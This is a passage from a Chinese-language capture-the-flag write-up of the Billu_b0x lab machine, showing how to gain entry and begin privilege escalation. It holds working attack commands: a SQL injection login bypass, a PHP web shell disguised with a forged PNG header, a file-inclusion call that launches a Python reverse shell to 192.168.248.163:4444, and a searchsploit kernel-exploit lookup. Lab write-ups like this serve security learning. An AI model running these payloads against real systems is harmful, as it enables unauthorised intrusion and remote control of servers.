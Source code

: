 但是发现有过滤，还好上面还有个任意文件下载。

和上面同样的原因，直接放出文件： [**`panel.php`**](/image/2019-04-24-Billu_b0x_writeup/panel.php)

简单的审计一下，发现了漏洞点，任意文件包含漏洞，这里我们可以先上传图片马，然后进行包含。

首先进入绕过登陆，并保存 `cookie`。

`curl http://192.168.248.161/index.php -d "un=or 1=1 -- \#&ps=\&login=let's login" -c cookie.jar`

携带 `cookie` 进行上传文件，这里 `printf` 首先打印的是 `png` 的文件头，由于服务端校验了文件头，所以我们必须对文件头进行伪造。

`printf "\x89\x50\x4E\x47\x0D\x0A\x1A\x0A\x00 <?php system(\$_POST['who']);?>" > shell.png`

`curl http://192.168.248.161/panel.php -F "image=@/root/Desktop/shell.png" -F "name=name" -F "address=address" -F "id=1337" -F "upload=upload" -b cookie.jar -v`

最后执行 `shell`，这里我用的是 `python` 反弹的 `shell` 。

```sh
curl http://192.168.248.161/panel.php -d "load=./uploaded_images/shell.png&continue=contnue&who=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.248.163\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'" -b cookie.jar --output -
```



### 0x413 提权

刚才我们已经得到了返回的 `shell` 。首先 `id` 查看一下权限。

```sh
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

首先先查看一下内核版本

```sh
www-data@indishell:~$ uname -a
Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
```

得到了内核版本，用 `searchsploit` 搜索一下

![Billu_b0x_6](/image/2019-04-24-Billu_b0x_writeup/Billu_b0x_6.png)

这里刚好存在一个提权漏洞，根据脚本的提示我们将文件上传了 `/tmp` 下，进行操作。

![Billu_b0x_7](/image/2019-04-24-Billu_b0x_writeup/Billu_b0x_7.png)
